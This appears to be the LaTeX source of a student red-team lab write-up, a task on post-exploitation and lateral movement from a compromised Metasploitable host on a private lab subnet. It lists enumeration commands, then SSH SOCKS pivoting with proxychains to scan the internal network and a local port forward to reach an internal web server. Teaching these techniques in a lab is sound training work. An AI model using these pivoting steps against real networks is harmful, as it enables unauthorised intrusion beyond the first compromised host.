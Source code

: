\documentclass[11pt,a4paper]{article}
\begin{document}
\begin{notebox}
\textbf{VIDEO} --- record enumeration through confirmed root/admin access; narrate the
persistence discussion since it is not executed live. \textbf{SCREENSHOT} ---
enumeration output showing the escalation vector, and the confirmed elevated-privilege
prompt.
\end{notebox}

\clearpage

\section{Task 10 --- Post-Exploitation \& Lateral Movement Analysis (5 marks)}
\textbf{Runs on:} \bruno\ \& \rayan\ (from the escalated session on
\texttt{192.168.50.40}). \quad\textbf{Goal:} show what an attacker could reach next
from the compromised host.

\begin{redbox}
Red Team treats the compromised Metasploitable host as a pivot point, not an endpoint
--- the question is what it can reach that Bruno's own Kali box cannot directly, which
is the realistic shape of lateral movement in a segmented network.
\end{redbox}

\begin{cmdbox}
\begin{cmdverb}
arp -a
netstat -antp
cat /etc/hosts
ip route
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}
\begin{cmdverb}
# dynamic port forward: opens a local SOCKS proxy on 1080 that routes
# through the Metasploitable host's own network view
ssh -D 1080 msfadmin@192.168.50.40

# point proxychains at that listener: confirm /etc/proxychains4.conf's last
# line reads "socks5 127.0.0.1 1080", then route a scan through the pivot
proxychains nmap -sT 192.168.50.0/24
\end{cmdverb}
\end{cmdbox}

\begin{cmdbox}
\begin{cmdverb}
ssh -L 8080:192.168.50.250:80 msfadmin@192.168.50.40
# then browse http://127.0.0.1:8080 on Bruno's own machine
\end{cmdverb}
\end{cmdbox}
\end{document}
